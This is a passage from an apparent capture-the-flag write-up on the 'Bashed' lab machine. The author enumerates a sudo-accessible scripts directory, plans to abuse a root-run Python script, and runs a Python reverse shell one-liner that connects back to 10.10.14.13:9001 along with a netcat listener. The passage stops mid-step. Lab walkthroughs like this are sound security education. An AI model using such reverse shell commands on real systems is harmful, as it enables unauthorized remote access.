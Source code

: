 We can use this to read the contents of the `/scripts` directory:

```bash
www-data@bashed:/# sudo -u scriptmanager ls -la scripts

total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 May 5 02:41 test.txt

www-data@bashed:/tmp# sudo -u scriptmanager cat /scripts/test.py

  
f = open("test.txt", "w")  
f.write("testing 123!")  
f.close
```

It looked like `test.txt` was owned by root but could still be written to, so I wondered if the `test.py` script somehow ran as root. I wanted to edit it to read the root flag, but was sick of my shell at this point, so tried harder to find one.

### Upgrading Shell

I ran this in the webshell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

And I got a lovely shell back:

![](/assets/images/blogs/Pasted image 20210505104808.png)

I quickly upgraded my shell:

![](/assets/images/blogs/Pasted image 20210505114032.png)

(i'm not sure why it says `nc -lnvp 9001` in the above)

### Experimenting with the Python Script

However I couldn't find an easy way to edit the file - using `vi` seemed to break down:

![](/assets/images/blogs/Pasted image 20210505105226.png)

I could enter edit mode by pressing `i`, but the arrow keys didn't work and pressing delete just capitalised the characters...

![](/assets/images/blogs/Pasted image 20210505105452.png)

I tried echoing some text:
